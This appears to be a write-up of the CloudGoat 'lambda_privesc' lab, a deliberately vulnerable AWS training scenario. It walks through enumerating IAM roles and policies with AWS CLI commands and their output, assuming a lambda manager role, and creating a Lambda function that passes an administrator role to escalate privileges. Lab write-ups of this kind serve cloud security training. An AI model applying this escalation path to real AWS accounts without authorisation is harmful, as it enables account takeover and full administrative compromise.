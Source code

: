 # Lambda Privilege Escalation

## Goal
Achieve full administrator privileges through assuming a lambda role.

## Installation
```
./cloudgoat.py create lambda_privesc
```
## Assume Chris
1. Add the profile
```
aws configure --profile chris
Enter secret key, access key, region and output
```
2. Set the default role to avoid --profile
```
unset AWS_ACCESS_KEY_ID
unset AWS_SECRET_ACCESS_KEY
export AWS_PROFILE=chris
aws sts get-caller-identity
```

## Enumerate Roles
1. List Roles
```
aws iam list roles
{
    "Path": "/",
    "RoleName": "<role name>",
    "RoleId": "<role id>",
    "Arn": "arn:aws:iam::<account id>:role/<role name>",
    "CreateDate": "2023-04-20T22:59:53+00:00",
    "AssumeRolePolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Sid": "",
                "Effect": "Allow",
                "Principal": {
                    "Service": "lambda.amazonaws.com"
                },
                "Action": "sts:AssumeRole"
            }
        ]
    },
    "MaxSessionDuration": 3600
}
{
    "Path": "/",
    "RoleName": "<role name>",
    "RoleId": "<role id>",
    "Arn": "arn:aws:iam::<account id>:role/<role name>",
    "CreateDate": "2023-04-20T23:00:03+00:00",
    "AssumeRolePolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Sid": "",
                "Effect": "Allow",
                "Principal": {
                    "AWS": "arn:aws:iam::<account id>:user/<user name>"
                },
                "Action": "sts:AssumeRole"
            }
        ]
    },
    "MaxSessionDuration": 3600
}
```
2. Identify permissions in role
```
aws iam list-attached-role-policies --role-name <lambda manager role name>

aws iam get-policy-version --policy-arn <policy arn> --output json --version-id v1
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": [
                        "lambda:*",
                        "iam:PassRole"
                    ],
                    "Effect": "Allow",
                    "Resource": "*",
                    "Sid": "lambdaManager"
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1",
        "IsDefaultVersion": true,
        "CreateDate": "2023-04-20T22:59:53+00:00"
    }
}
```
From the above permission, we can confirm that the manager is able to perform any lambda actions and a pass role can be put to the lambda function.

## Assume Lambda Manager Role
1. Assume the lambda manager role
```
aws sts assume-role --role-arn <manager role arn> --role-session-name manager --output json
```
2. Add the profile
```
aws configure --profile manager
nano ~/.aws/credentials
<Add aws_session_token={session token for manager}>
```
## Enumerate debug role permissions
1. Enumerate permissions
```
aws iam list-attached-role-policies --role-name <debug role name>
ATTACHEDPOLICIES        arn:aws:iam::aws:policy/AdministratorAccess     AdministratorAccess
```
Thus, we can create a lambda function passing the debug role with full administration access.

## Craft Lambda Function
1. Copy lambda.py and replace corresponding variables
2. Zip the file 
3. Create the function
```
aws lambda create-function --function-name lambda_privilege_escalate --role <debug role arn> --runtime python3.9 --profile manager --handler lambda.lambda_handler --zip-file <path to lambda.py.zip>
```
## References 
https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/lambda_privesc/README.md